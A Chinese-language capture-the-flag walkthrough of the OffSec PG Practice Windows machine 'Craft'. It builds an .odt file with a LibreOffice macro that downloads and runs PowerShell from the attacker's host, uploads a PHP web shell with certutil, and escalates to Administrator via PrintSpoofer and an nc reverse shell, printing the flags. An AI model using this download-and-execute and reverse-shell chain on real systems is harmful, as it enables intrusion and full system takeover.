

###### tags: `Offsec` `PG Practice` `Intermediate` `Windows`

# Craft
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.218.169 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.176.169:80

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: Craft
```

他需要上傳`.odt`檔，先安裝`libreoffice`
> 參考
https://0xdf.gitlab.io/2020/02/01/htb-re.html?source=post_page-----c92de878e004--------------------------------
```
┌──(kali㉿kali)-[~/pgplay]
└─$ sudo apt-get install libreoffice 

┌──(kali㉿kali)-[~/pgplay]
└─$ libreoffice
```

選`Writer Document -> Tools -> Macros -> Organize Macros -> Basic -> macro from最下面的文件 -> New -> 取名evil`，參考他的指令
```
Sub Main

    Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://192.168.45.184/oneliner.ps1')""")
    
End Sub
```

儲存之後，開啟`Tools -> Customize -> Open Document -> Macro -> 選剛剛的evil`



存檔退出，開啟nc，上傳.odt檔等回彈，可在`C:\Users\thecybergeek\Desktop`得到local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

PS C:\Users\thecybergeek\Desktop> type local.txt
a5bcba022f6a299797c980ddb6de283d
```

在`C:\xampp\htdocs`路徑可看到php的檔案，可以試試看上傳php的reverseshell，發現不行，感覺要跟上面一樣的方式進行(ps1檔)，先上傳簡單的shell，再上傳`oneliner.ps1`，再以cmd執行
```
PS C:\xampp\htdocs> certutil.exe -urlcache -f http://192.168.45.184/s.php s.php

http://192.168.176.169/s.php?cmd=whoami
craft\apache

192.168.176.169/s.php?cmd=certutil.exe -urlcache -f http://192.168.45.184/oneliner.ps1 oneliner.ps1

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9002

192.168.176.169/s.php?cmd=cmd /c powershell -c C:/xampp/htdocs/oneliner.ps1
```

確認反彈查看`whoami /priv`可使用`printspoofer`
```
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9003

PS C:\Users\Public\Documents> certutil.exe -urlcache -f http://192.168.45.184/PrintSpoofer64.exe PrintSpoofer.exe

PS C:\Users\Public\Documents> certutil.exe -urlcache -f http://192.168.45.184/nc.exe nc.exe

PS C:\Users\Public\Documents> ./PrintSpoofer.exe -i -c "C:\Users\Public\Documents\nc.exe 192.168.45.184 9003 -e cmd"
```

等反彈可在`C:\Users\Administrator\Desktop`得proof.txt
```
C:\Users\Administrator\Desktop>type proof.txt
724027d57a6610494dcb82d9880c1705
```